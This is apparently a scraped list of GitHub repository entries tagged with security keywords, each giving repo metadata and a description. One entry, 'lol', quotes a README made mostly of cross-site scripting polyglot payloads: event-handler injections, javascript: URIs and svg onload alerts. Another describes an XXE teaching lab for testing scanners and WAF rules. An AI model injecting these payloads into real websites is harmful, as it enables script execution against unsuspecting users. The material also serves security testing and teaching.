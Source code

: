 <table><tr>
<tr><td>Owner: <code>cyber-pignus</code></td>
    <td>Language: <code>PHP</code></td>
    <td>Started: <code>2021-06-15 19:50:06+00:00</code></td>
    <td>Latest: <code>2021-06-16 01:32:16+05:30</code></td></tr>
<tr><td>Commits: <code>4</code></td>
    <td>Stargazers: <code>0</code></td>
    <td>Watchers: <code>0</code></td>
    <td>Forks: <code>0</code></td></tr>
</table>
Keywords: cross-side-scripting, session vulnerability

---

# lol

https://github.com/testnsh/lol
<blockquote>
&amp;quot; onmouseover=alert(9205) bad=&amp;quot; &amp;quot;/&amp;gt;jaVasCript:/*-/*`/*\`/*'/*&amp;quot;/**/(/* */oNcliCk=prompt() )//%0D%0A%0d%0a//&amp;lt;/stYle/&amp;lt;/titLe/&amp;lt;/teXtarEa/&amp;lt;/scRipt/--!&amp;gt;\x3csVg/&amp;lt;sVg/oNloAd=prompt(123)//&amp;gt;\x3e jaVasCript:/*-/*`/*\`/*'/*&amp;quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//&amp;lt;/stYle/&amp;lt;/titLe/&amp;lt;/teXtarEa/&amp;lt;/scRipt/--!&amp;gt;\x3csVg/&amp;lt;sVg/oNloAd=alert()//&amp;gt;\x3e &amp;quot; onclick=alert(1)//&amp;lt;button ' onclick=alert(1)//&amp;gt; */ alert(1)// jaVasCript:/*-/*`/*\`/*'/*&amp;quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//&amp;lt;/stYle/&amp;lt;/titLe/&amp;lt;/teXtarEa/&amp;lt;/scRipt/--!&amp;gt;\x3csVg/&amp;lt;sVg/oNloAd=alert()//&amp;gt;\x3e ';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//&amp;quot;;alert(String.fromCharCode (88,83,83))//&amp;quot;;alert(String.fromCharCode(88,83,83))//-- &amp;gt;&amp;lt;/SCRIPT&amp;gt;&amp;quot;&amp;gt;'&amp;gt;&amp;lt;SCRIPT&amp;gt;alert(String.fromCharCode(88,83,83)) &amp;lt;/SCRIPT&amp;gt; '&amp;lt;script&amp;gt;alert(1)&amp;lt;/script&amp;gt; &amp;lt;script&amp;gt;alert(1)&amp;lt;/script&amp;gt; &amp;...
</blockquote>

<table><tr>
<tr><td>Owner: <code>testnsh</code></td>
    <td>Language: <code>None</code></td>
    <td>Started: <code>2021-06-12 10:40:12+00:00</code></td>
    <td>Latest: <code>2021-06-12 16:11:44+05:30</code></td></tr>
<tr><td>Commits: <code>3</code></td>
    <td>Stargazers: <code>0</code></td>
    <td>Watchers: <code>0</code></td>
    <td>Forks: <code>0</code></td></tr>
</table>
Keywords: xml external entity

---

# XXE-study

https://github.com/HLOverflow/XXE-study
<blockquote>
This repository contains various XXE labs set up for different languages and their different parsers. This may alternatively serve as a playground to teach or test with Vulnerability scanners / WAF rules / Secure Configuration settings.
</blockquote>
